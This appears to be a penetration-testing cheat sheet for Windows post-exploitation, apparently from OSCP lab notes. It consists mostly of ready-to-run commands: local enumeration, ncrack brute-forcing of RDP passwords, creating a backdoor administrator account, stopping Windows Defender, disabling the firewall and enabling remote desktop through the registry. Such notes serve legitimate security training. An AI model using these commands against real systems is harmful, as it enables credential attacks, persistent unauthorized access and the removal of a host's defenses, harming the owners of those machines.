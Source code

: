 ### Inside service

Check netstat to see what ports are open from outside and from inside. Look for ports only available on the inside.

```
# Meterpreter
run get_local_subnets

netstat /a
netstat -ano
```

### Programs running as root/system

### Installed software

```
# Metasploit
ps

tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```

### Scheduled tasks

```
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```

### Weak passwords

Remote desktop

```
ncrack -vv --user george -P /root/oscp/passwords.txt rdp://10.11.1.111
```

### Add user and enable RDP

```
# Add new user

net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Turn firewall off and enable RDP

sc stop WinDefend
netsh advfirewall show allprofiles
netsh advfirewall set allprofiles state off
netsh firewall set opmode disable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```